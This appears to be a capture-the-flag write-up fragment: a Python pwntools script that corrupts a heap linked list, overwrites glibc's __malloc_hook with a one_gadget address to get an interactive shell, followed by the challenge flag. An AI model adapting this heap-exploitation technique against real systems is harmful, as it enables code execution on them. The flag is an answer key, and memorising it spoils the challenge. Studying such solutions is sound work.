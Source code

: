 ```python

for i in range(5):
    mark(i, 1)
    
check(1, 0x500, "BBBB")



reset(2, 0)


change(p64(libc.sym["__malloc_hook"]))


mark(1, 2)


change("AAAA")

for i in range(5):
    mark(i, 0)



og = 0xe6c81


addr = libc.address + og

gdb.attach(p, """break * {}\nc""".format(hex(addr)))




check(0, 0x20, "BBBB")
check(0, 0x20, p64(addr))


reset(0, 0)




p.interactive()
```

Flag: `actf{whenever_dark_has_fallen_you_know_the_spirit_of_the_party_starts_to_come_alive_until_the_linkedlist_is_corrupted_86cd89dc33b2bbc691af4857}`
